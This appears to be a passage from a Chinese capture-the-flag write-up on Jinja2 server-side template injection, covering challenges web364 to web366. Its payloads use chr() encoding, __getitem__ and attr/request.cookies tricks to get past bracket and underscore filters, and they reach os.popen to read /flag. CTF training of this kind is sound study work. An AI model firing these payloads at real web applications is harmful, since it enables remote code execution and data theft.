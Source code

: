 再把替换后的payload放在后面，两段拼在一起得到最终姿势

```
?name={%set+chr=[].__class__.__bases__[0].__subclasses__()[80].__init__.__globals__.__builtins__.chr%}{{ config.__class__.__init__.__globals__[chr(111)%2bchr(115)].popen(chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)).read() }} 
```

## web365

比上题又多过滤了一个`中括号`

### 中括号绕过

可以用`__getitem__`和`pop`代替，**因为pop会破坏数组的结构**，所以更推荐用`__getitem__`

观察上题的payload，一共有四处中括号

```
第一处的[]直接换成()即可
第二处的[0]换成.__getitem__(0)或者直接删去
第三处的[80]换成.__getitem__(80)
第四处的[chr(111)%2bchr(115)]换成.__getitem__(chr(111)%2bchr(115)) 
```

最终payload:

```
?name={%set+chr=().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(80).__init__.__globals__.__builtins__.chr%}{{ config.__class__.__init__.__globals__.__getitem__(chr(111)%2bchr(115)).popen(chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)).read() }} 
```

## web366

多过滤了一个`_`,这里参考的羽师傅的[SSTI模板注入绕过（进阶篇）](https://blog.csdn.net/miuzzx/article/details/110220425)，不得不说，师傅们姿势是真的多。

### attr获取变量

```
""|attr("__class__")
相当于
"".__class__ 
```

### request.cookies传参

用法和request.args基本相同

这两个配合使用，payload:

```
?name={{(abc|attr(request.cookies.a)|attr(request.cookies.b)|attr(request.cookies.c))(request.cookies.d).eval(request.cookies.e)}} 
```
